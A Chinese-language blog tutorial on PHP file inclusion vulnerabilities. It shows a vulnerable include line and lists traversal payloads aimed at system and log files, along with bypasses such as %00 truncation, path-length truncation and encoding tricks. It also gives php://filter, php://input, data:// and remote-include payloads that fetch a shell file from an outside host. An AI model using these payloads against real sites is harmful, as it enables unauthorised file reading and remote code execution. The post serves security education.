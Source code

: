 ```yaml
---
layout: post
title:  web 安全系列-22-文件包含攻击
date:  2020-08-09 10:37:20 +0800
categories: [web]
tags: [web, web-safe, sf]
published: true
---
```



# 基础

常见的文件包含漏洞的形式为 `<?php include("inc/" . $_GET['file']); ?>`

考虑常用的几种包含方式为

```
同目录包含 file=.htaccess
目录遍历 ?file=../../../../../../../../../var/lib/locate.db
日志注入 ?file=../../../../../../../../../var/log/apache/error.log
利用 /proc/self/environ
```

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

# 绕过技巧

常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

## url编码绕过

如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

## 特殊字符绕过

某些情况下，读文件支持使用Shell通配符，如 `? *` 等

url中 使用 `? #` 可能会影响include包含的结果

某些情况下，unicode编码不同但是字形相近的字符有同一个效果

## %00截断

几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

## 长度截断

Windows上的文件名长度和文件路径有关。

具体关系为：**从根目录计算，文件路径长度最长为259个bytes。**

msdn定义 `#define MAX_PATH 260`，其中第260个字符为字符串结尾的 `\0` ，而linux可以用getconf来判断文件名长度限制和文件路径长度限制。

获取最长文件路径长度：getconf PATH_MAX /root 得到4096获取最长文件名：getconf NAME_MAX /root 得到255

那么在长度有限的时候，`././././ (n个)` 的形式就可以通过这个把路径爆掉

在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

## 伪协议绕过

远程包含: 要求 allow_url_fopen=On 且 allow_url_include=On ， payload为 `?file=[http|https|ftp]://websec.wordpress.com/shell.txt` 的形式

PHP input: 把payload放在POST参数中作为包含的文件，要求 allow_url_include=On ，payload为 ?file=php://input 的形式

Base64: 使用Base64伪协议读取文件，payload为 ?file=php://filter/convert.base64-encode/resource=index.php 的形式

data: 使用data伪协议读取文件，payload为 `?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=` 的形式，要求 allow_url_include=On

# 拓展阅读  

[web 安全系列](https://houbb.github.io/2020/08/09/web-safe-00-overview)

# 参考资料

[文件包含](https://www.bookstack.cn/read/LyleMi-Learn-Web-Hacking/7e13217718268055.md)

* any list
{:toc}